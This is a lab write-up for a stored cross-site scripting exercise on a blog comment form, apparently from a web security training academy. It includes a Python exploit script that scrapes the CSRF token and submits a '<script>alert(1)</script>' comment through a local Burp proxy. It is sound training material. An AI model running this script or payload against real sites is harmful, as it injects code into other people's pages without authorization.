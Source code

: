 ```yaml
---
title: 'XSS Lab 2'
description: 'Stored cross-site scripting into HTML context with nothing encoded'
---
```



## Stored XSS into HTML context with nothing encoded

<div style="text-align: justify;">
  This lab demonstrates a stored cross-site scripting (XSS) vulnerability in the comment functionality of a blog. The application fails to encode input before rendering it in the HTML context, allowing malicious scripts to be stored and executed when the post is viewed.

  By submitting a simple payload in the comment box, the script executes in the victim’s browser, demonstrating the risks of unencoded user input in web applications.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Navigate to the target blog post.
- Extract the CSRF token from the comment form.
- Submit a comment with a `<script>alert(1)</script>` payload.
- When the post is viewed, the payload executes in the browser.
- The lab is solved once the script runs successfully.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests, sys, urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080','https': 'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", proxies=proxies, timeout=3, verify=False)
    except:
        print("[-] Burp Suite not running.")
        sys.exit(1)

def exploit_xss(url, payload):
    s = requests.Session()
    s.proxies, s.verify = proxies, False

    post_page = url.rstrip("/") + "/post?postId=5"
    r = s.get(post_page); r.raise_for_status()
    soup = BeautifulSoup(r.text, "html.parser")
    csrf = soup.find("input", {"name": "csrf"})["value"]

    data = {
        "csrf": csrf,
        "postId": "5",
        "comment": payload,
        "name": "test",
        "email": "test@test.com",
        "website": "http://test.com"
    }
    s.post(url.rstrip("/") + "/post/comment", data=data).raise_for_status()

    if "Congratulations" in s.get(url).text:
        print("[+] Lab solved! 🎉"); return True
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>"); sys.exit(1)
    check_burp()
    print("[*] Attempting XSS...")
    if exploit_xss(sys.argv[1], '<script>alert(1)</script>'):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```